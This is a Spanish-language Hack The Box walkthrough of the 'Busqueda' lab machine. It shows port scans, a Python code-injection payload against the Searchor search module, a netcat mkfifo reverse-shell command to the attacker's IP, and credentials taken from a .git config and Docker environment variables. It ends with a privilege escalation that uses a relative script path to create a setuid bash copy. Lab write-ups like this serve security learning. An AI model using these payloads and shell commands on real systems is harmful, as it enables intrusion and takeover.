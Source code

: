 ```yaml
---
title: Busqueda - Hackthebox
date: 2024-07-31
categories: [Write up, linux, Hackthebox]
tags: [python,gitea,git,docker,RCE]      # TAG names should always be lowercase
---
```


![20240725092525.png](20240725092525.png)

Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo `Python`. Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. Para escalar privilegios a `root`, descubrimos credenciales dentro de un archivo de configuración `Git`, lo que nos permite iniciar sesión en un servicio `Gitea` local. Además, descubrimos que un script de verificación del sistema puede ser ejecutado con privilegios `root` por un usuario específico. Al utilizar este script, enumeramos los contenedores `Docker` que revelan las credenciales para la cuenta `Gitea` del usuario `administrador`. Un análisis más detallado del código fuente del script de verificación del sistema en un repositorio `Git` revela un medio para explotar una referencia de ruta relativa, lo que nos otorga la Ejecución remota de código (RCE) con privilegios `root`.

# Reconocimiento

Iniciamos con la enumeración de los puertos abiertos

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.208 -oG allportsScan

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

```

Luego de enumerar los puertos, vamos a seguir enumerando los servicios y versiones de estas que se ejecutan en estas.

```c
❯ nmap -p22,80 -sC -sV -vvv -Pn -n 10.10.11.208 -oN servicesScan

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzAFurw3qLK4OEzrjFarOhWslRrQ3K/MDVL2opfXQLI+zYXSwqofxsf8v2MEZuIGj6540YrzldnPf8CTFSW2rk=
|   256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPTtbUicaITwpKjAQWp8Dkq1glFodwroxhLwJo6hRBUK
80/tcp open  http    syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Sitio Web.

Navegando en el sitio web encontraremos el siguiente contenido

![20240725095432.png](20240725095432.png)

Tenemos una forma de ejecutar comandos en este servicio.

```c
',__import__('os').system('ls -la'))#
```

![20240725095505.png](20240725095505.png)

Podemos ver que podemos ejecutar comandos en la maquina victima, por lo que nos enviaremos una revershell.

![20240725095531.png](20240725095531.png)


# shell - svc

Haciendo uso del exploit podremos enviarnos una revershell de manera automatizada
## Exploit_Searchor_2.4.0_RCE

Podemos descargar el script para ejecutar comandos desde la terminal en el siguiente link:

- [https://github.com/b0ySie7e/Exploit_Searchor_2.4.0_RCE/](https://github.com/b0ySie7e/Exploit_Searchor_2.4.0_RCE/)


![20240725111244.png](20240725111244.png)

Una vez descargado el script podemos enviarnos una revershell desde la terminal

```c
python3 Exploit_Searchor_2.4.0_RCE.py -u http://searcher.htb -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.55 443 >/tmp/f'
```

Antes de ejecutar el script debemos ponernos a la escucha con `ncat`

```c
❯ ncat -nvlp 443
```

![20240725111634.png](20240725111634.png)

## .git

Enumerando el directorio del usuario actual podemos observar credenciales para el usuario `cody`

![20240725123251.png](20240725123251.png)

```c
http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

Teniendo estas credenciales ingresaremos a el sitio web en el subdominio `gitea.searcher.htb`

![20240725123346.png](20240725123346.png)

Además validamos esta contraseña contra el usuario `svc` y observamos que es valida

```c
svc : jh1usoih2bkjaspwe92
```

```c
svc@busqueda:/var/www/app/.git$ sudo -l
```

![20240725123435.png](20240725123435.png)

Luego observamos los privilegios del usuario `svc` y podemos ver que tiene privilegios para ejecutar cierto script de manera privilegiada 
# shell - root

El script o comando que podemos ejecutar es:

```c
 /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Ejecutando el script podemos ver que tenemos las siguientes opciones

```c
svc@busqueda:/var/www/app/.git$ sudo  /usr/bin/python3 /opt/scripts/system-checkup.py docker ps
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

```

Podemos revisar la documentacion de `docker-inspect` para tener mas comandos de este.

- [docker-inspect get a subsection in json format](https://docs.docker.com/reference/cli/docker/inspect/#get-a-subsection-in-json-format)

En este caso tenemos unos contenedores que podremos ver con `docker-ps`

```c
svc@busqueda:/tmp$ sudo  /usr/bin/python3 /opt/scripts/system-checkup.py  docker-inspect '{{json .Config}}' gitea
{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}

```

```c
svc@busqueda:/tmp$ sudo  /usr/bin/python3 /opt/scripts/system-checkup.py  docker-inspect '{{json .Config}}' mysql_db
{"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```

Luego de ejecutar podremos ver credenciales que haremos uso de para ingresar a una base de datos

```c
sudo  /usr/bin/python3 /opt/scripts/system-checkup.py  docker-inspect '{{json .Config}}' mysql_db
```

En esta base de datos no encontraremos mucho, solo las credenciales encriptadas

```c
svc@busqueda:/$ mysql -u gitea -p -h 127.0.0.1:3006
```

![20240725200657.png](20240725200657.png)

## subdominio  gitea.searcher.htb

Esta contraseña la podemos hacer uso para ingresar a la cuenta de `administrator` del servicio `gitea`

```c
administrator : yuiu1hoiu4i5ho1uh
```

![20240725165734.png](20240725165734.png)

En el repositorio encontramos un script el cual ejecutamos de manera privilegiada

![20240725165810.png](20240725165810.png)

Analizando un poco vemos que el script de `full-checkup.sh` no se ejecuta teniendo en cuenta el path absoluta, por lo que usaremos este vector para escalar privilegios

![20240725165832.png](20240725165832.png)

Crearemos un script en nuestro directorio de usuario y luego le daremos permisos de ejecución, para luego ejecutar el script de manera privilegiada con el parámetro `full-checkup`.

```c
nano full-checkup.sh

#!/bin/bash
cp /bin/bash /tmp/cmd
chmod +s /tmp/cmd

chmod +x full-checkup.sh 
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```


![20240725203541.png](20240725203541.png)

Luego de ejecutar el script podemos escalar privilegios como el usuario root.

![20240725203604.png](20240725203604.png)

